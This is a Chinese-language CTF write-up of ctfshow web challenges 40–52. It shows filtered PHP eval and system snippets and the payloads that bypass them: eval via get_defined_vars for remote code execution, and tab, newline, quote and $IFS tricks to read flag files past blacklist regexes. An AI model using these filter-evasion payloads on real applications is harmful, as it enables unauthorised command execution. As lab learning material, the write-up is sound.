 能用的：分号，下划线，字母，括号……

官方hint方法：`?c=show_source(next(array_reverse(scandir(pos(localeconv())))));`

其他方法(ctfshow视频教程):

1.尝试拿到当前所有变量：`print_r(get_defined_vars());`

![](https://s2.loli.net/2022/01/16/eCjvQzmRxnLalM3.png)

2.可以使用`current()`和`next()`获取数组中的对象，再用`array_pop()`弹出值并执行，因为此题并没有过滤eval函数

![](https://s2.loli.net/2022/01/16/rmH3nF4UDSRWP7V.png)

最终使用payload:`?c=eval(array_pop(next(get_defined_vars())));`，在POST里即可RCE



#### web41 字符串构造rce(脚本)

```php
phpinfo();
('phpinfo')();
```

效果相同

hint：https://blog.csdn.net/miuzzx/article/details/108569080

#### web46 %09 %0a 管道符使用

```php
if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*/i", $c)){
        system($c." >/dev/null 2>&1");
```

payload: `tac%09fla?.php%0a` 或者 `tac%09fla?.php&&ls`注意要将&&或者||URL编码-->`tac%09fla?.php%26%26ls`

此处的%09和%0a自动解码后不包含数字，所以不会被过滤，闭合或者注释掉后面的重定向写入即可回显

#### web50 nl< ''使用

```php
if(!preg_match("/\;|cat|flag| |[0-9]|\\$|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26/i", $c)){
        system($c." >/dev/null 2>&1");
```

过滤了%09和%26(&)，无法绕过空格了。

可以使用不带空格的读取方式绕过 `nl<fla''g.php||`，nl不支持?通配符

#### web52 空格替代

```php
if(!preg_match("/\;|cat|flag| |[0-9]|\*|more|less|head|sort|tail|sed|cut|tac|awk|strings|od|curl|\`|\%|\x09|\x26|\>|\</i", $c)){
        system($c." >/dev/null 2>&1");
```

payload: `nl$IFS/fla''g||`
